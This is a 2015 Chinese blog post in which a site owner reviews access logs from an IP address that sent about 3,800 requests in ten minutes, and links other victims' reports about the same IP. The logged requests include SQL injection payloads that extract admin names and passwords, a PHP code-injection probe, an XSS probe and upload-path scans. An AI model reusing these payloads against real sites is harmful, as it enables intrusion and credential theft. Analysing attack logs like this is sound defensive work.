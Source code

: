 ```yaml
---
layout: post
title:  "被183.60.243.234攻击记"
date:    2015-3-5 20:03:56 +0800
categories: 技术
issue: 8
use_code: true
---
```


第一条request是

    183.60.243.234 [05/Mar/2015:17:57:55 +0800] / 200 1.537 1.537 0 

最后一条request是

    183.60.243.234 [05/Mar/2015:18:08:07 +0800] /ascii_art/text/ 403 0.002 0.002 1006

差不多就10分钟吧，一共3814个request

网上搜了下，这个IP应该是惯犯

[2014年11月20日，晚间8点30分，网站遭遇到IP地址为 183.60.243.234 （经查，该IP号码为惯犯，提醒各位站长将其列入黑名单）的恶意CC攻击，导致网站拓机12小时之久。软件有料第一时间向广东广州网警报案，并停止域名解析。](http://www.appimm.com/about/)

[就关于本站12年12月7日受到的攻击已报案 蟹蟹牛童装官网 / 2014-01-26](http://www.crabox.com/article-251.html)

[就关于本站14年6月9日受到的攻击已报案](http://blog.itunic.com/ddos-baoan.html)

[大神别处练手，小站不想折腾——再记伪黑客作死](http://aikongke.com/3579.html)

大概看了下log，还是比较有趣的



比如下面这些log

    # 这堆php是什么鬼。。。各种sql尝试注入。。。。奇怪的php注入
      183.60.243.234 [05/Mar/2015:18:01:15 +0800] /tool//yb/yb.php?q=${@die(print(md5(0.573354965313)))} 404 0.007 0.007 4477 
      183.60.243.234 [05/Mar/2015:18:01:07 +0800] /xheditor/upload.php 404 0.009 0.009 4477 
      183.60.243.234 [05/Mar/2015:18:01:05 +0800] /user/demos/upload.php 404 0.014 0.014 4477 
      183.60.243.234 [05/Mar/2015:18:01:04 +0800] /admin/demos/upload.php 404 0.019 0.019 4477 
      183.60.243.234 [05/Mar/2015:18:01:03 +0800] /editor/demos/upload.php 404 0.008 0.008 4477 
      183.60.243.234 [05/Mar/2015:18:01:00 +0800] /xheditor/demos/upload.php 404 0.008 0.008 4477 
      183.60.243.234 [05/Mar/2015:18:01:00 +0800] /index.php?mod=product&act=list&keyword=pw%'%20UNION%20SELECT%201,concat(0x7e,user(),0x7e),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19%23 404 0.008 0.008 4477 
      183.60.243.234 [05/Mar/2015:18:01:00 +0800] /admin/editor/demos/upload.php 404 0.009 0.009 4477 
      183.60.243.234 [05/Mar/2015:18:00:59 +0800] /user/xheditor/demos/upload.php 404 0.016 0.016 4477 
      183.60.243.234 [05/Mar/2015:18:00:56 +0800] /connect.php?receive=yes&mod=login&op=callback&referer=xyz%bf\x5Cu0027.replace(/.%2b/,/javascript:alert(511265478)/.source);// 404 0.008 0.008 4477 
      183.60.243.234 [05/Mar/2015:18:00:56 +0800] /index.php?view=../admin/Sources/edit_loginad&edit=-1%20union%20select%201,2,3,4,%28SELECT%20md5(3.1416)%20FROM%20admin%29,6,7,8,9--%20- 404 0.018 0.018 4477 
      183.60.243.234 [05/Mar/2015:18:00:56 +0800] /index.php?mod=product&act=list&keyword=pw%'%20UNION%20SELECT%201,(select+concat(0x7e,admin_name,0x40,admin_pw,0x7e)+from+pe_admin),3,4,5,6,7,8,9,10,11,12,13,14,15,16,17,18,19%23 404 0.017 0.017 4477 
      183.60.243.234 [05/Mar/2015:18:00:56 +0800] /fck/editor/filemanager/upload/php/upload.php?Type=Media 404 0.019 0.019 4477 
      183.60.243.234 [05/Mar/2015:18:00:56 +0800] /member.php?act=check_info_gold&table=phpmps_member%20where%201=1%20and%20%28SELECT%201%20from%20%28select%20count%28*%29,concat%28floor%28rand%280%29*2%29,%28substring%28%28select%28select%20password%20from%20phpmps_admin%20limit%200,1%29%29,1,62%29%29%29a%20from%20information_schema.tables%20group%20by%20a%29b%29%23 404 0.018 0.018 4477 